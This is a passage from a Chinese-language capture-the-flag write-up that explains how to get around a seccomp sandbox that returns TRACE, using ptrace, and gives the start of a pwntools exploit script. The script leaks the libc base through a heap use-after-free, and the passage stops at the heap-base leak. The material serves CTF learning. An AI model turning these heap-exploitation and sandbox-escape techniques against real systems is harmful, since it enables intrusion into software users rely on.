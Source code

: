 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-d799d8aeb9658d56325e4091e3522430c66df9f2.png)

- 可以看到题目的沙盒确实不是直接kill，而是返回trace。这样就有了利用思路，调用ptrace(PTRACE\_SETOPTIONS, pid, 0, PTRACE\_0\_TRACESECCOMP)然后让子进程拿到flag即可

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-e5b6a4c7e4468ecb4885aff45ebe610c7eb183b0.png)

- exp

```python
from pwn import *
from pwnlib.util.packing import u64
from pwnlib.util.packing import u32
from pwnlib.util.packing import u16
from pwnlib.util.packing import u8
from pwnlib.util.packing import p64
from pwnlib.util.packing import p32
from pwnlib.util.packing import p16
from pwnlib.util.packing import p8
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
p = process("/home/zp9080/PWN/pwn")
# p=remote('139.155.126.78',31700)
# p=process(['seccomp-tools','dump','/home/zp9080/PWN/pwn'])
elf = ELF("/home/zp9080/PWN/pwn")
libc=elf.libc
gdb_script='''
'''
def dbg():
    gdb.attach(p,gdb_script)  
    pause()

# dbg()
sla = lambda data, content: p.sendlineafter(data, content)
sa = lambda data, content: p.sendafter(data, content)
sl = lambda data: p.sendline(data)

# ---------------------------------------------------------
def add(index, size):
    sla('>', '1')
    sla('Index: ', str(index))
    sla(': ', str(size))

def edit(index, content):
    sla('>', '3')
    sla('Index: ', str(index))
    sa(': ', content)

def delete(index):
    sla('>', '2')
    sla('Index: ', str(index))

def show(index):
    sla('>', '4')
    sla(': ', str(index))

#--------------------------泄露libcbase------------------------------
add(0, 0x520)
add(1, 0x508)
delete(0)
show(0)
libcbase =u64(p.recv(6).ljust(8, b'\x00'))- 0x1f6cc0

#-----------------------------泄露heapbase----------------------------
```